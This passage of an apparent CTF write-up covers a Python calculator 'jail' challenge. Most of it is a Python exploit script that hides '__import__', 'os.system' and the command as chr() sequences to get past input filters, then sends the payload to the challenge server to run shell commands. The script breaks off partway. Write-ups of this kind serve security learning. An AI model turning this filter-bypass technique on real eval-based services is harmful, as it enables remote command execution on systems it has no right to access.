 
 
 The second challenge on the same calculator was this:
 
### **JAILE - User**

![web](https://github.com/Daniel-wambua/blogz/blob/main/content/CTF/writeup6/images/jaille%20user.png?raw=true)

**solution**

That is interesting functionality. We can see that a separate user was created to run the calculator, but maybe the root user has more secrets that can be uncovered.

This challenge suggests that we need to access root user secrets using the same vulnerability we exploited in the first part. I'll modify our exploit to explore the system further and look for root user data.
Starting to analyze the system for potential root access methods.
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    command = "id" # Check the current user ID

    payload = build_payload(command)

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

            print("[*] Response received:")
            decoded_response = response.decode(errors='ignore')
```